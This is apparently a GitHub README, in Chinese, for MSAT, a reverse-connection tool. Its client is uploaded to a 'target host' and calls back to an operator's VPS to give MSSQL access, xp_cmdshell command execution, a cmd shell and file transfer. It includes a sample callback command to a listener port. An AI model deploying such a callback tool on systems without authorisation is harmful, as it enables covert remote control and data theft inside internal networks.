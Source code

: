 # MSAT

MSAT是一款MSSQL反向连接可视化工具。

开发原因是遇到了较多的sql server数据库，但是大多处于内网。访问时都需要进入内网才能连接操作。在一番寻找之后没有发现合适的工具，于是本着学习.NET的打算，一通乱写，整出了这么个破玩意。勉强可以用一用。应该没有造车轮吧。由于使用到了Dev插件，导致服务端软件较大。

### 使用方法

软件分为两个部分，客户端和服务端。

#### [客户端](https://github.com/GabgM/MSATClient)
.NET Framework版本： 3.5

将客户端上传到目标主机后，使用cmd打开。

```cmd
MSATClient ip port [time]
```

ip: VPS的IP地址

port：设置的VPS监听端口

time：可选参数，如果省略表示持续运行。加参数表示固定时间后自动断开socket连接，时间单位为分钟。注意：不会删除客户端持续，只是断开连接。

例：

```cmd
MSATClient 192.168.1.2 4444 60
表示连接192.168.1.2的4444端口，并且在60分钟后自动断开连接
```

#### [服务端](https://github.com/GabgM/MSATServer)
.NET Framework版本： 4.7.2

将压缩包解压，打开MSATServer.exe即可。

![](https://github.com/GabgM/MSAT/raw/master/image/0.PNG)

服务端有两种Socket运行方式。

①、当HOST为0.0.0.0时，监听本地端口，等待客户端反向连接。

②、当HOST不为0.0.0.0时，正向连接填写的host，搭配LCX使用，与客户端连接。

第二种连接方式存在一定的问题，只能勉强使用。

连接完成后，点击登陆按钮，连接数据库就可以正常使用了。

![](https://github.com/GabgM/MSAT/raw/master/image/1.PNG)

注意：数据库结构目前貌似只能是sa用户才能正常获取。当进行数据查询时，客户端的CPU占用会大幅度增加(25%左右)，用于对数据的处理。

当目标开启xp_cmdshell功能后，可以直接输入命令执行。

![](https://github.com/GabgM/MSAT/raw/master/image/2.PNG)

除了MSSQL的使用，还额外增加了cmd，和文件传输的功能。

下载文件，输入客户端文件的绝对路径即可。

上传文件，点击按钮选择即可。

![](https://github.com/GabgM/MSAT/raw/master/image/3.PNG)

最后，当需要退出程序时，会有两种退出方式。

![](https://github.com/GabgM/MSAT/raw/master/image/4.PNG)

点击是，会在退出服务端的同时关闭客户端。

点击否，只会退出服务端。



### 最后
本软件仅用于学习交流！

